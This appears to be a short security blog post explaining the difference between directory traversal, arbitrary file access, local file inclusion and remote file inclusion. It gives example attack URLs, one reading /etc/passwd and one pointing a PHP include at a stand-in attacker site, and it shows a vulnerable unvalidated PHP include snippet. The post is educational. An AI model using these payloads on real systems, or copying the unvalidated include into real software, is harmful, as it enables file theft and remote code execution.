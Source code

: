 ```yaml
---
title: Local file inclusion & remote file inclusion
published: true
---
```


# [](#header-1) Local file inclusion & remote file inclusion
 
Hi buddies, Sometime you might be confused about the difference between Arbitrary file access, Local file inclusion and Remote file inclusion attacks. Lets discuss about the differences.  
 
## [](#header-2) Directory Traversal Attack
 
Directory traversal attacks that allowed an attacker to ‘traverse’ outside an intended directory to access a file or directory that was not intended.
eg. http://vulnerableWebSite.com/apps/index.php?file=../../../../../../etc/passwd
Making this request would direct the script to traverse outside the web server document root (DOCROOT) to access the system password file (/etc/passwd).

* * * 
## [](#header-2) Arbitrary File Access
 
If the application is running with full privileges and could access any file on the system by traversal, and it only allows an attacker to read the contents of the file, not write to it or execute it as a script, It qualified to “traversal arbitrary file access”.
eg. http://vulnerableWebSite.com/apps/index.php?file=../../../../tmp/shell.php
In this traversal arbitrary file access issue, the contents of shell.php will be displayed, not executed.

* * *
 
 
## [](#header-2) Local File Inclusion (LFI) attack
 
It often exhibit the same trait as directory traversal attacks, the attack typically involves a relative (e.g. ../../) or absolute path (e.g. &file=/path/to/file) to call a specific file on the system. The difference is in how the application handles the request. Instead of displaying the contents of the file like above, it will include the file as if it is an executable script. This means that arbitrary code, but limited to what is already on the file system, will be executed with the same privileges as the web application and/or web server.  
Basically, the difference is that with a file inclusion vulnerability, the resource is loaded and executed in the context of the current application. A directory traversal vulnerability on the other hand, only gives you the ability to read the resource.

* * *
 
## [](#header-2) Remote File Inclusion (RFI) attack
 
It allows an attacker to include a remotely hosted file, usually through a script on the web server. The vulnerability occurs due to the use of user-supplied input without proper validation.  
it can also lead to:  
 
Code execution on the web server
Code execution on the client-side such as JavaScript which can lead to other attacks such as cross site scripting (XSS) 
Denial of Service (DoS)  
Sensitive Information Disclosure
 
Since RFI occurs when paths passed to "include" statements are not properly sanitized, in a blackbox testing approach, we should look for scripts which take filenames as parameters. Consider the following PHP example:  
```
$incfile = $_REQUEST["file"];
include($incfile.".php");
In this example the path is extracted from the HTTP request and no input validation is done.
http://vulnerableWebSite.com/vulnPage.php?file=http://attackerSite/malicousURL
```
